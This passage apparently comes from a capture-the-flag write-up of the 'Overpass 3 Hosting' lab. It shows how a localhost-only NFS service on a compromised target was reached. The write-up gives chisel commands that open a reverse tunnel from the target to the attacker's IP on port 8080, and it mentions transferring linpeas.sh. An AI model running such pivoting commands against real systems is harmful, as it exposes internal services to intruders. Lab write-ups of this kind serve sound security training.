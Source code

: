 ![checking NFS service listening on port 2049](/assets/thm/overpass3-hosting/7-5.png)

To access the local TCP port 2049, local port forwarding was carried out using `chisel`. The `chisel` binary was transferred to the target using the same method used to transfer the `linpeas.sh` script.

On the attack machine:
`chisel server -p 8080 --reverse`

On the target machine:
`./chisel client 10.8.146.22:8080 R:2049:127.0.0.1:2049`

![local port forwarding with chisel](/assets/thm/overpass3-hosting/7-6.png)

This created a way to access the local NFS service through a web socket running on the attack machine on TCP port 8080. The file system was then mounted at `/tmp/overpass` on the attack machine [3].
